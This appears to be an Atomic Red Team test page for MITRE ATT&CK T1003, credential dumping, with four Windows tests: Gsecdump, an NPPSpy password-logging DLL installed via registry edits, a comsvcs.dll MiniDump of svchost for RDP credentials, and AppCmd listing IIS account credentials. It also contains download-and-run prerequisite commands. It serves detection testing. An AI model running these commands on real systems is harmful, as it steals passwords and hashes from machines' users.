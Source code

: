 # T1003 - OS Credential Dumping
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1003)
<blockquote>Adversaries may attempt to dump credentials to obtain account login and credential material, normally in the form of a hash or a clear text password, from the operating system and software. Credentials can then be used to perform [Lateral Movement](https://attack.mitre.org/tactics/TA0008) and access restricted information.

Several of the tools mentioned in associated sub-techniques may be used by both adversaries and professional security testers. Additional custom tools likely exist as well.
</blockquote>

## Atomic Tests

- [Atomic Test #1 - Gsecdump](#atomic-test-1---gsecdump)

- [Atomic Test #2 - Credential Dumping with NPPSpy](#atomic-test-2---credential-dumping-with-nppspy)

- [Atomic Test #3 - Dump svchost.exe to gather RDP credentials](#atomic-test-3---dump-svchostexe-to-gather-rdp-credentials)

- [Atomic Test #4 - Retrieve Microsoft IIS Service Account Credentials Using AppCmd](#atomic-test-4---retrieve-microsoft-iis-service-account-credentials-using-appcmd)


<br/>

## Atomic Test #1 - Gsecdump
Dump credentials from memory using Gsecdump.

Upon successful execution, you should see domain\username's followed by two 32 character hashes.

If you see output that says "compat: error: failed to create child process", execution was likely blocked by Anti-Virus. 
You will receive only error output if you do not run this test from an elevated context (run as administrator)

If you see a message saying "The system cannot find the path specified", try using the get-prereq_commands to download and install Gsecdump first.

**Supported Platforms:** Windows


**auto_generated_guid:** 96345bfc-8ae7-4b6a-80b7-223200f24ef9





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| gsecdump_exe | Path to the Gsecdump executable | Path | PathToAtomicsFolder&#92;T1003&#92;bin&#92;gsecdump.exe|
| gsecdump_bin_hash | File hash of the Gsecdump binary file | String | 94CAE63DCBABB71C5DD43F55FD09CAEFFDCD7628A02A112FB3CBA36698EF72BC|
| gsecdump_url | Path to download Gsecdump binary file | Url | https://web.archive.org/web/20150606043951if_/http://www.truesec.se/Upload/Sakerhet/Tools/gsecdump-v2b5.exe|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
#{gsecdump_exe} -a
```




#### Dependencies:  Run with `powershell`!
##### Description: Gsecdump must exist on disk at specified location (#{gsecdump_exe})
##### Check Prereq Commands:
```powershell
if (Test-Path #{gsecdump_exe}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
$parentpath = Split-Path "#{gsecdump_exe}"; $binpath = "$parentpath\gsecdump-v2b5.exe"
IEX(IWR "https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/Public/Invoke-WebRequestVerifyHash.ps1" -UseBasicParsing)
if(Invoke-WebRequestVerifyHash "#{gsecdump_url}" "$binpath" #{gsecdump_bin_hash}){
  Move-Item $binpath "#{gsecdump_exe}"
}
```




<br/>
<br/>

## Atomic Test #2 - Credential Dumping with NPPSpy
Changes ProviderOrder Registry Key Parameter and creates Key for NPPSpy.
After user's logging in cleartext password is saved in C:\NPPSpy.txt.
Clean up deletes the files and reverses Registry changes.
NPPSpy Source: https://github.com/gtworek/PSBits/tree/master/PasswordStealing/NPPSpy

**Supported Platforms:** Windows


**auto_generated_guid:** 9e2173c0-ba26-4cdf-b0ed-8c54b27e3ad6






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Copy-Item "$env:Temp\NPPSPY.dll" -Destination "C:\Windows\System32"
$path = Get-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\NetworkProvider\Order" -Name PROVIDERORDER
$UpdatedValue = $Path.PROVIDERORDER + ",NPPSpy"
Set-ItemProperty -Path $Path.PSPath -Name "PROVIDERORDER" -Value $UpdatedValue
$rv = New-Item -Path HKLM:\SYSTEM\CurrentControlSet\Services\NPPSpy -ErrorAction Ignore
$rv = New-Item -Path HKLM:\SYSTEM\CurrentControlSet\Services\NPPSpy\NetworkProvider -ErrorAction Ignore
$rv = New-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\NPPSpy\NetworkProvider -Name "Class" -Value 2 -ErrorAction Ignore
$rv = New-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\NPPSpy\NetworkProvider -Name "Name" -Value NPPSpy -ErrorAction Ignore
$rv = New-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\NPPSpy\NetworkProvider -Name "ProviderPath" -PropertyType ExpandString -Value "%SystemRoot%\System32\NPPSPY.dll" -ErrorAction Ignore
echo "[!] Please, logout and log back in. Cleartext password for this account is going to be located in C:\NPPSpy.txt"
```

#### Cleanup Commands:
```powershell
$cleanupPath = Get-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\NetworkProvider\Order" -Name PROVIDERORDER
$cleanupUpdatedValue = $cleanupPath.PROVIDERORDER 
$cleanupUpdatedValue = $cleanupUpdatedValue -replace ',NPPSpy',''
Set-ItemProperty -Path $cleanupPath.PSPath -Name "PROVIDERORDER" -Value $cleanupUpdatedValue
Remove-Item -Path "HKLM:\SYSTEM\CurrentControlSet\Services\NPPSpy" -Recurse -ErrorAction Ignore
Remove-Item C:\NPPSpy.txt -ErrorAction Ignore
Remove-Item C:\Windows\System32\NPPSpy.dll -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: NPPSpy.dll must be available in local temp directory
##### Check Prereq Commands:
```powershell
if (Test-Path "$env:Temp\NPPSPY.dll") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
Invoke-WebRequest -Uri https://github.com/gtworek/PSBits/raw/f221a6db08cb3b52d5f8a2a210692ea8912501bf/PasswordStealing/NPPSpy/NPPSPY.dll -OutFile "$env:Temp\NPPSPY.dll"
```




<br/>
<br/>

## Atomic Test #3 - Dump svchost.exe to gather RDP credentials
The svchost.exe contains the RDP plain-text credentials.
Source: https://www.n00py.io/2021/05/dumping-plaintext-rdp-credentials-from-svchost-exe/

Upon successful execution, you should see the following file created $env:TEMP\svchost-exe.dmp.

**Supported Platforms:** Windows


**auto_generated_guid:** d400090a-d8ca-4be0-982e-c70598a23de9






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
$ps = (Get-NetTCPConnection -LocalPort 3389 -State Established -ErrorAction Ignore)
if($ps){$id = $ps[0].OwningProcess} else {$id = (Get-Process svchost)[0].Id }
C:\Windows\System32\rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump $id $env:TEMP\svchost-exe.dmp full
```

#### Cleanup Commands:
```powershell
Remove-Item $env:TEMP\svchost-exe.dmp -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #4 - Retrieve Microsoft IIS Service Account Credentials Using AppCmd
AppCmd.exe is a command line utility which is used for managing an IIS web server. The list command within the tool reveals the service account credentials configured for the webserver. An adversary may use these credentials for other malicious purposes.
[Reference](https://twitter.com/0gtweet/status/1588815661085917186?cxt=HHwWhIDUyaDbzYwsAAAA)

**Supported Platforms:** Windows


**auto_generated_guid:** 6c7a4fd3-5b0b-4b30-a93e-39411b25d889






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
C:\Windows\System32\inetsrv\appcmd.exe list apppool /@t:*
C:\Windows\System32\inetsrv\appcmd.exe list apppool /@text:*
C:\Windows\System32\inetsrv\appcmd.exe list apppool /text:*
```




#### Dependencies:  Run with `powershell`!
##### Description: IIS must be installed prior to running the test
##### Check Prereq Commands:
```powershell
if ((Get-WindowsFeature Web-Server).InstallState -eq "Installed") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Install-WindowsFeature -name Web-Server -IncludeManagementTools
```




<br/>

